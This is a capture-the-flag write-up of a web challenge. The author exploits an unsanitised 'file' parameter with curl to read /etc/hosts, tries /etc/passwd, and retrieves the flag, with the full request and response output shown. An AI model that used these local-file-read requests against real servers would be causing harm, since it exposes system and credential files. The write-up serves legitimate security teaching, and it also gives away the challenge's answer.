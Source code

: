 # What to do during Christmas? (web) (author: snn)

## Description

```shell
If you need a good excuse to discuss a security topic during a family reunion, the elves prepare a list of cybersecurity-related books and movies. Try to get one during Christmas and enjoy!

PS: We hope they have done a good job securing the web app ;-)

In new browser tab enter url: http://cyberxmas.milestone.dk:[YOUR_DOCKER_PORT>/
```

## Task analysis & solution

The challenge is in the web category and when we browse the provided url, after you will see a redirect message:

![alt text](image-1.png)

After these 15 seconds you are ended up to this page:
 
 ![alt text](image.png)

That redirected location looked suspicious to me as in the browser we can see the following:

*```view?file=index.html```*

So we have a view with a **`file`** filter command.

The fist thing that come to my mind is to try with some dummy data -> dummy.html

![alt text](image-2.png)

The responce we've got is interesting:
```No such file or directory: '/app/dummy.html'```

So it search a dummy.html file in /app directory
Let's try to use some common linux files like /etc/hosts or /etc/passwd

For easy playground I've moved to curl in cmd shell:

Trying with /etc/hosts
```shell
$ curl http://10.10.8.61:46510/view?file=/etc/hosts -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=/etc/hosts HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Disposition: inline; filename=hosts
< Content-Type: application/octet-stream
< Content-Length: 174
< Last-Modified: Sun, 05 Jan 2025 12:02:11 GMT
< Cache-Control: no-cache
< ETag: "1736078531.4621272-174-324273100"
< Date: Sun, 05 Jan 2025 19:38:49 GMT
< Server: Werkzeug/2.0.3 Python/3.9.20
<
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      97804735efee
* shutting down connection #0
```

Trying with /etc/passwd:
```shell
$ curl http://10.10.8.61:46510/view?file=/etc/passwd -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=/etc/passwd HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* Recv failure: Connection was reset
* closing connection #0
curl: (56) Recv failure: Connection was reset
```

So for hosts works for passwd nope.

The next thing to try is to search for the flag, and based on my experience from previous challenges,
I decided to try with **`flag.txt`** as file name (that name was used in some docker & web categories)

```shell
$ curl http://10.10.8.61:46510/view?file=flag.txt -v
*   Trying 10.10.8.61:46510...
* Connected to 10.10.8.61 (10.10.8.61) port 46510
> GET /view?file=flag.txt HTTP/1.1
> Host: 10.10.8.61:46510
> User-Agent: curl/8.9.1
> Accept: */*
>
* Request completely sent off
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Disposition: inline; filename=flag.txt
< Content-Type: text/plain; charset=utf-8
< Content-Length: 40
< Last-Modified: Wed, 04 Dec 2024 13:40:43 GMT
< Cache-Control: no-cache
< ETag: "1733319643.0-40-532153544"
< Date: Sun, 05 Jan 2025 19:43:38 GMT
< Server: Werkzeug/2.0.3 Python/3.9.20
<
MlestoneCTF{web_security_can_be_simple}
* shutting down connection #0
```

I've got a lucky shot: **``MlestoneCTF{web_security_can_be_simple}``**